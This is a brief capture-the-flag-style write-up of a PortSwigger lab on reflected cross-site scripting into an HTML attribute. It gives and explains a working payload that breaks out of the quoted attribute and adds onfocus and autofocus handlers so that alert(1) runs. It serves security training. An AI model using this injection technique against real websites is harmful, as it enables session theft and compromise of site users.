




> Platform -> PortSwigger
> ### Target -> Lab: Reflected XSS into attribute with angle brackets HTML-encoded

----
***where is Vulnerability: in search parameter***
***Goal: make alert(1)***

---


### Steps:
1. Open the lab in your browser.
2. simple hello in search field -> 
3. try payload in search field ->  there is html encoding
4. try:
```bash
a" onfocus="alert(1)" autofocus="alert(1)
```
- 


- ##### Payload: a" onfocus="alert(1)" autofocus="alert(1)

- a           → random letter, means nothing
- "           → closes the quote box early
- onfocus=    → "when this box is focused, do something"
- alert(1)    → the something = show a popup
- autofocus   → makes the box focus itself, no click needed

`What happens: page opens → box auto-focuses → popup shows up`


5. solve the lab.
